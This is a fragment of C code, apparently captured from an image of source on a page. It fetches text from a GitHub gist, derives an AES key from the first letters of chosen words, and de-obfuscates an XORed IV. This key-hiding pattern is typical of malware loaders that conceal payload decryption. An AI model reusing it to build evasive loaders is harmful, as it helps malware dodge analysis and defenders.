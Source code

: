 ```
    hInternet = InternetOpen(NULL, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL) {
        printf("Failed to open Internet connection\n");
        return 1;
    }

    // Connect to the server
    hConnect = InternetOpenUrl(hInternet, "https://gist.github.com/jsdario/6d6c69398cb0c73111e49f1218960f79/raw", NULL, 0, INTERNET_FLAG_RELOAD, 0);
    if (hConnect == NULL) {
        printf("Failed to connect to the server\n");
        InternetCloseHandle(hInternet);
        return 1;
    }

    InternetReadFile(hConnect, request_buffer, BUFFER_SIZE, &bytesRead);
    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);


    token = strtok(request_buffer, " \t\n");
    while (token != NULL && word_count < end_word) {
        // If word_count is greater than or equal to start_word, store the first character
        if (word_count >= start_word) {
            aes_key[word_count - start_word] = token[0];
        }
        word_count++;
        token = strtok(NULL, " \t\n");
    }

    unsigned char aes_iv[16] = {0x28, 0x39, 0x47, 0x28, 0x01, 0x44, 0x47, 0x28, 0x1a, 0x47, 0x1b, 0x46, 0x19, 0x47, 0x04, 0x28};
    
    for (size_t i = 0; i < 16; i++)
    {
        aes_iv[i] = aes_iv[i] ^ 0x777;
    }

    BYTE pKey[KEY_SIZE];
    BYTE pIv[IV_SIZE];

    // cipher
    struct AES_ctx ctx;
    // Copy AES key and IV byte by byte
    for (size_t i = 0; i < KEY_SIZE; i++) {
        pKey[i] = aes_key[i];
    }
    for (size_t i = 0; i < IV_SIZE; i++) {
        pIv[i] = aes_iv[i];
    }

	// Initializing the Tiny-AES Library
	AES_init_ctx_iv(&ctx, pKey, pIv);

    printf("iv:\n");
    for (size_t i = 0; i < 16; i++)
    {
        printf("%c", aes_iv[i]);
    }

    printf("\nkey:\n");
    for (size_t i = 0; i < 32; i++)
    {
```